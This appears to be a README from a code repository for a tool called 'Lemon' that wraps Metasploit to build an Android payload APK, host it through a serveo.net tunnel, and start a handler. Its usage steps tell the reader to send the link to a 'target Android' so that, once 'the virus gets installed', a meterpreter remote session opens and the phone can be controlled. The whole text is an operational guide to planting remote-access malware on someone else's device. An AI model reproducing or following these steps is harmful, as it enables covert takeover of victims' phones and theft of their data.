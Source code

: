 .Requirements :-
1. Metasploit-Framework
Installation :-
1. Install it by executing "cd $HOME/Lemon && sh Install" without quotes.
How to use :-
1.Run php by typing "sh php".
2.Run say by typing "sh ssh" and copy the link you get.   [NEW SESSION]
3.Forward TCP comnections by typing "sh payload", choose a port of your own and the payload's name, it will take a little time to create and upload the payload with the specified port and name.
4.Type "sh Handler" and wait for the Handler to start, then type "set LPORT xxxx" Put your port instead of xxxx, and finally type "run"   [NEW SESSION]
5.Finally paste the code.
6.Now, put your payload's name  after the link that you got after running "sh ssh" [For Example : lente.serveo.net/Name.apk] and send the link to the target Android, once the virus gets installed in the target device, you will see a meterpreter session opening, wait for a few seconds. Now you can mess with the hacked Android using the commands listed.
